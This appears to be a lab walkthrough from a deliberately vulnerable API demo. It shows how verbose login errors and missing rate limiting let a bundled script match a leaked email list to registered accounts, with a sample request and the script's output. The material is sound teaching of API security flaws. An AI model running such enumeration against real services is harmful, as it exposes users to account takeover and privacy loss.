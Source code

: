 # Identify registered email addresses

A lot of valuable information has been leaked in the past by others. Attackers can easily get lists of email addresses - sometimes even with passwords - of accounts that were leaked elsewhere. Because our API returns errors messages that are too verbose and because there is no rate limiting on the `/auth/login` endpoint, attackers can easily match lists of email addresses with registered accounts. 

Here is a list of [1000 leaked email addresses](../../demos//attack-2/leaked.txt). With a bit of scripting - which I have done for you - you can easily try every email address and see what happens. The script sends the email address with password `password` to the API. Using the error message (`Wrong email address` or `Wrong password`) we can identify those email addresses that are registered with an account.

```
POST /auth/login
{
  "email": "hdegoe0@netvibes.com",
  "password": "password" 
}

401 Unauthorized
{
  "status": "401",
  "message": "Wrong email address"
}
```

When we run the script we see that we've been able to match six email addresses. 

```bash
deliver haveibeenpwned ./leaked.txt
______ _____ _     _____ _   _ ___________
|  _  \  ___| |   |_   _| | | |  ___| ___ \
| | | | |__ | |     | | | | | | |__ | |_/ /
| | | |  __|| |     | | | | | |  __||    /
| |/ /| |___| |_____| |_\ \_/ / |___| |\ \
|___/ \____/\_____/\___/ \___/\____/\_| \_|


Attacking http://192.168.1.23:3333/auth/login
Dictionary has 1000 email addresses
Trying 100 batches of 10 emails

[==================================================] 100% 0.0s

Duration: 2.108 secs
Found 6 accounts

lposthill1@sbwire.com
pchampkin2@t.co
nratcliffe3@digg.com
odettmar4@salon.com
cdonnell5@desdev.cn
hhalward6@google.nl
``` 

In this example we've seen two of the [OWASP API top 10](https://owasp.org/www-project-api-security/) vulnerabilities:

- [API3-2019: Excessive Data Exposure](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa3-excessive-data-exposure.md) as there is too much information in the JWT token payload.
- [API4-2019: Lack of Resources & Rate Limiting](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa4-lack-of-resources-and-rate-limiting.md) as there is no restriction on how many times you can try to log in.
- [API7-2019: Security Misconfiguration](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa7-security-misconfiguration.md) as the error messages are too verbose and give an attacker clues about how to identify accounts. 

# Note 

- For convenience reasons I have included a script here that performs the attack for you. [Burp Suite](https://portswigger.net/burp) is a well-known application for penetration testing and provides similar featuers and much more. It has a steep learning curve, but if you are serious about penetration testing you'll want to dig into it.

- An awesome resource for checking if you own email address has every been compromised in a breach is the website [';-- Have I Been Pwned?](https://haveibeenpwned.com/).